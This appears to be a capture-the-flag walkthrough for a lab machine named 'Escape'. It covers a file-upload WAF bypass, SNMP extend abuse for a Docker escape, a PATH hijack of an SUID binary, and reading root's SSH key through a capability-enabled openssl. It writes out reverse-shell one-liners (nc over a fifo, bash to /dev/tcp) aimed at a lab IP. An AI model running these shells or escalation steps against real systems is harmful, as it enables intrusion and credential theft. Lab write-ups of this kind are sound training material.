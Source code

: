 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.113
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 16:01 +08
Nmap scan report for 192.168.157.113
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enumeration --> File Upload

Visiting both the websites shows nothing. The page source just shows this:

```markup
<html>
<head>

<style type="text/css">
 <!--
 body {
  background-image: url(jail.jpg);
 }
 -->
</style>

<title>Escape</title>
</head>
<body>
</body>
</html>
```

I ran a `feroxbuster` on both, and found a `/dev` endpoint on port 8080.

```
$ feroxbuster -u http://192.168.157.113:8080
[>-------------------] - 2s        89/30000   42/s    http://192.168.157.113:8080/dev 
[--------------------] - 0s         0/30000   0/s     http://192.168.157.113:8080/dev/uploads
```

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

This was a PHP page, so uploading PHP reverse shells is the priority, and there's a pretty good WAF. I tested loads of method of bypassing it, and this machine requires a combination of quite a few.&#x20;

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

* File Header Spoofing
* Double File Extension
* Content-Type Spoofing

We can get a reverse shell by loading the uploaded file:

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SNMP --> Docker Escape

We spawned in a Docker container. The `/var/backups` folder contained a `.conf` file for SNMP:

```
www-data@a7c367c2113d:/var/backups$ ls -la
total 20
drwxr-xr-x 1 root root 4096 Dec 21  2020 .
drwxr-xr-x 1 root root 4096 Nov 18  2020 ..
-rwxr--r-- 1 root root 7340 Dec  9  2020 .snmpd.conf
```

Here are the interesting bits:

```
###############################################################################
#
#  ACCESS CONTROL
#

                                                 #  system + hrSystem groups only
view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1

                                                 #  Full access from the local host
#rocommunity public  localhost
                                                 #  Default access to basic system info
 rocommunity public  default    -V systemonly
                                                 #  rocommunity6 is for IPv6
 rocommunity6 public  default   -V systemonly

 rocommunity 53cur3M0NiT0riNg
 
<TRUNCATED>
 extend    test1   /bin/echo  Hello, world!
 extend-sh test2   echo Hello, world! ; echo Hi there ; exit 35
 extend-sh test3   /bin/sh /tmp/shtest
<TRUNCATED>
```

Firstly, we have the password string required. Next, we have some sort of script execution within the machine. We can put a reverse shell there instead.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.227 21 >/tmp/f
```

Then, transfer this using `curl` and `chmod 777` it. To execute the shell, run this:

```bash
$ snmpbulkwalk -c 53cur3M0NiT0riNg -v2c 192.168.157.113 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

<figure><img src="../../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

### LogRotate SUID --> PATH Hijack

I checked for SUID binaries present within this machine:

```
Debian-snmp@escape:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/logconsole
```

`logconsole` was the one I didn't recognise.&#x20;

```
Debian-snmp@escape:/$ file /usr/bin/logconsole                                               
/usr/bin/logconsole: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d3102ed1d950486fed01c5ad8915511a12aea52d, for GNU/Linux 3.2.0, not stripped                                             
Debian-snmp@escape:/$ /usr/bin/logconsole --version                                          
                                                                                             
                                                                                             
 /$$                                                                       /$$               
| $$                                                                      | $$               
| $$  /$$$$$$   /$$$$$$   /$$$$$$$  /$$$$$$  /$$$$$$$   /$$$$$$$  /$$$$$$ | $$  /$$$$$$      
| $$ /$$__  $$ /$$__  $$ /$$_____/ /$$__  $$| $$__  $$ /$$_____/ /$$__  $$| $$ /$$__  $$     
| $$| $$  \ $$| $$  \ $$| $$      | $$  \ $$| $$  \ $$|  $$$$$$ | $$  \ $$| $$| $$$$$$$$     
| $$| $$  | $$| $$  | $$| $$      | $$  | $$| $$  | $$ \____  $$| $$  | $$| $$| $$_____/     
| $$|  $$$$$$/|  $$$$$$$|  $$$$$$$|  $$$$$$/| $$  | $$ /$$$$$$$/|  $$$$$$/| $$|  $$$$$$$     
|__/ \______/  \____  $$ \_______/ \______/ |__/  |__/|_______/  \______/ |__/ \_______/     
               /$$  \ $$                                                                     
              |  $$$$$$/                                                                     
               \______/                                                                      
                                                                                             
                                                                                                                                                                                          
1. About the Sytem                                                                           
2. Current Process Status                                                                    
3. List all the Users Logged in and out                                                      
4. Quick summary of User Logged in                                                           
5. IP Routing Table                                                                          
6. CPU Information                                                                           
7. To Exit                                                                                   
99. Generate the Report                                                                      
                                                                                             
Enter the option ==> 
```

It seems like a custom binary. As such, I ran it through `ltrace` to see what it was executing with each option.

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 02                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("/bin/ps aux"USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  0.8 159660  8976 ?        Ss   03:58   0:01 /sbin/init
```

it's executing `system` calls for each option. When I checked the last option, it runs `lscpu` without the full path:

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 06                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("lscpu"Architecture:        x86_64
```

This means we can create our own `lscpu` binary to run.&#x20;

```
$ cat lscpu 
bash -c 'bash -i >& /dev/tcp/192.168.45.227/443 0>&1'
```

Then, place this within `/tmp` and `chmod 777` it. Afterwards, change the PATH variable and run the `logconsole` binary to check for CPU information.

```bash
export PATH=/tmp:$PATH
```

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

### OpenSSL --> File Read

Within the `/opt` directory, there's an `openssl` binary that only `tom` can execute:

```
tom@escape:/opt/cert$ ls -la
total 724
drwxr-xr-x 2 root root   4096 Dec  9  2020 .
drwxr-xr-x 4 root root   4096 Dec  9  2020 ..
-rwx------ 1 root root   1245 Dec  9  2020 certificate.pem
-rwx------ 1 root root   1704 Dec  9  2020 key.pem
-rwxr-x--- 1 tom  tom  723944 Dec  9  2020 openssl
```

We are also given some certs and keys. I first checked this `openssl` binary using `getcap`, finding that it has all capabilities enabled, meaning that we can read any file:

```
tom@escape:/dev/shm$ getcap /opt/cert/openssl
/opt/cert/openssl =ep
```

We can then use this to read the private SSH key of `root`:

```
tom@escape:/dev/shm$ /opt/cert/openssl enc -in "/root/.ssh/id_rsa"
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
<TRUNCATED>
```

<figure><img src="../../../.gitbook/assets/image (62) (10).png" alt=""><figcaption></figcaption></figure>
